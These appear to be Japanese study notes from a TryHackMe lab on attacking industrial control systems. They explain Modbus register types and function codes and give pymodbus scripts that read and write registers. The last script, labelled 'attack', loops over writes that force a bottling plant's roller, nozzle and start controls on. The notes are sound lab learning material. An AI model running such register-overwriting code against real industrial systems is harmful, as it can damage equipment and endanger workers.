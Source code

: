 # 産業制御システム(ICS)

https://tryhackme.com/room/attackingics1

## Modbus

https://www.csimn.com/CSI_pages/Modbus101.html

- マスタースレーブ（マスターがスレーブのレジスタを読み書きする）

### レジスタタイプ

- 離散入力（ステータス入力）：1ビット、RO
- コイル（ディスクリート出力）：1ビット、R/W
- 入力レジスタ: 16ビット、RO
- 保持レジスタ: 16ビット R/W

| 機能コード | レジスタタイプ           | 説明                                     |
|------------|--------------------------|------------------------------------------|
| 1          | コイル                  | コイルを読む（Read Coils）              |
| 2          | 離散入力                | 離散入力の読み取り（Read Discrete Inputs） |
| 3          | 保持レジスタ            | 保持レジスタの読み取り（Read Holding Registers） |
| 4          | 入力レジスタ            | 入力レジスタの読み取り（Read Input Registers） |
| 5          | コイル                  | シングルコイルへの書き込み（Write Single Coil） |
| 6          | 保持レジスタ            | 単一保持レジスタへの書き込み（Write Single Register） |
| 15         | コイル                  | 複数のコイルへの書き込み（Write Multiple Coils） |
| 16         | 保持レジスタ            | 複数の保持レジスタへの書き込み（Write Multiple Registers） |

### pymodbus

https://pymodbus.readthedocs.io/en/stable/index.html

```sh
#pip3 install pymodbus==1.5.2
pip3 install pymodbus
```

#### read

```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
    rr = client.read_holding_registers(1, 16)
    print(rr.registers)
    time.sleep(1)
```

#### write

```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
registry = int(sys.argv[2])
value = int(sys.argv[3])
client = ModbusClient(ip, port=502)
client.connect()
client.write_register(registry, value)
```

#### attack
```python
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()
while True:
  client.write_register(1, 0)  # Bottle is not filled
  client.write_register(2, 0)  # Bottle is not under the nozzle
  client.write_register(3, 1)  # Start the roller
  client.write_register(4, 1)  # Open the nozzle
  client.write_register(16, 1) # Start the plant
```